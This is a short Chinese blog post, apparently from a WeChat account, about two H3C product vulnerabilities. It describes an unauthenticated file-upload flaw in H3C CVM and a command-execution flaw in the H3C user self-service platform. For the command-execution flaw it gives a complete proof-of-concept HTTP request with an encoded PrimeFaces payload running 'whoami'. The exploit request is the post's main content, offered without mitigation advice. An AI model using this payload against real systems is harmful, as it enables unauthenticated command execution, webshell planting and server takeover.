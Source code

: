 #  H3C两个漏洞的划水   
原创 SXdysq  南街老友   2024-05-12 21:41  
  
**产品介绍**  
  
H3C用户自助服务平台是一种基于云计算和自动化技术的管理平台，旨在提供自助式、智能化的网络设备和服务管理解决方案。该平台通过集成多种功能和工具，帮助企业用户更高效地管理和维护其网络设备，并提供更好的用户体验。  
  
**漏洞简介**  
  
H3C用户自助服务平台 dynamiccontent.properties.xhtml 接口出存在命令执行漏洞，未经身份验证的攻击者可以利用此漏洞执行任意指令，写入后门文件，导致整个web服务器存在被控的风险。  
  
H3C CVM /cas/fileUpload/upload接口存在任意文件上传漏洞，未授权的攻击者可以上传任意文件，获取 webshell，控制服务器权限，读取敏感信息等。  
  
**漏洞poc**  
```
POST /imc/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: IP地址：端口

pfdrt=sc&ln=primefaces&pfdrid=uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkUDzOAoSQnmBt4dYyjvjGhVqupdmBV%2FKAe9gtw54DSQCl72JjEAsHTRvxAuJC%2B%2FIFzB8dhqyGafOLqDOqc4QwUqLOJ5KuwGRarsPnIcJJwQQ7fEGzDwgaD0Njf%2FcNrT5NsETV8ToCfDLgkzjKVoz1ghGlbYnrjgqWarDvBnuv%2BEo5hxA5sgRQcWsFs1aN0zI9h8ecWvxGVmreIAuWduuetMakDq7ccNwStDSn2W6c%2BGvDYH7pKUiyBaGv9gshhhVGunrKvtJmJf04rVOy%2BZLezLj6vK%2BpVFyKR7s8xN5Ol1tz%2FG0VTJWYtaIwJ8rcWJLtVeLnXMlEcKBqd4yAtVfQNLA5AYtNBHneYyGZKAGivVYteZzG1IiJBtuZjHlE3kaH2N2XDLcOJKfyM%2FcwqYIl9PUvfC2Xh63Wh4yCFKJZGA2W0bnzXs8jdjMQoiKZnZiqRyDqkr5PwWqW16%2FI7eog15OBl4Kco%2FVjHHu8Mzg5DOvNevzs7hejq6rdj4T4AEDVrPMQS0HaIH%2BN7wC8zMZWsCJkXkY8GDcnOjhiwhQEL0l68qrO%2BEb%2F60MLarNPqOIBhF3RWB25h3q3vyESuWGkcTjJLlYOxHVJh3VhCou7OICpx3NcTTdwaRLlw7sMIUbF%2FciVuZGssKeVT%2FgR3nyoGuEg3WdOdM5tLfIthl1ruwVeQ7FoUcFU6RhZd0TO88HRsYXfaaRyC5HiSzRNn2DpnyzBIaZ8GDmz8AtbXt57uuUPRgyhdbZjIJx%2FqFUj%2BDikXHLvbUMrMlNAqSFJpqoy%2FQywVdBmlVdx%2BvJelZEK%2BBwNF9J4p%2F1fQ8wJZL2LB9SnqxAKr5kdCs0H%2FvouGHAXJZ%2BJzx5gcCw5h6%2Fp3ZkZMnMhkPMGWYIhFyWSSQwm6zmSZh1vRKfGRYd36aiRKgf3AynLVfTvxqPzqFh8BJUZ5Mh3V9R6D%2FukinKlX99zSUlQaueU22fj2jCgzvbpYwBUpD6a6tEoModbqMSIr0r7kYpE3tWAaF0ww4INtv2zUoQCRKo5BqCZFyaXrLnj7oA6RGm7ziH6xlFrOxtRd%2BLylDFB3dcYIgZtZoaSMAV3pyNoOzHy%2B1UtHe1nL97jJUCjUEbIOUPn70hyab29iHYAf3%2B9h0aurkyJVR28jIQlF4nT0nZqpixP%2Fnc0zrGppyu8dFzMqSqhRJgIkRrETErXPQ9sl%2BzoSf6CNta5ssizanfqqCmbwcvJkAlnPCP5OJhVes7lKCMlGH%2BOwPjT2xMuT6zaTMu3UMXeTd7U8yImpSbwTLhqcbaygXt8hhGSn5Qr7UQymKkAZGNKHGBbHeBIrEdjnVphcw9L2BjmaE%2BlsjMhGqFH6XWP5GD8FeHFtuY8bz08F4Wjt5wAeUZQOI4rSTpzgssoS1vbjJGzFukA07ahU%3D&cmd=whoami
```  
  
**漏洞检测与利用**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtAJdMs7NdbAA10cLgQYZ84L3H2cFlaDqLicFeaIzKnEUGw0PEbIE2s3zlXTer1PzYv54E6JTncAVBw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtAJdMs7NdbAA10cLgQYZ84LfibGg2Mk5pmVV7NpsPEWXDxxmPHyyajpEayKroenlylz66zGpwiaAFrA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtAJdMs7NdbAA10cLgQYZ84LWBm6bzHOSWI3wm1xYek8Zvqcvk8dBnbdazgFpcfiaXr0Sl6WjcaIEog/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dfviaLov8RtAJdMs7NdbAA10cLgQYZ84LBIegPLADpLcOIHkUtb214Q8tkHU9ibKAcUgHIvajA8iafJ7J3S2O7w6g/640?wx_fmt=png&from=appmsg "")  
  
**经典语录**爱一个人是藏不住的，但爱两个人一定要藏好。  
  
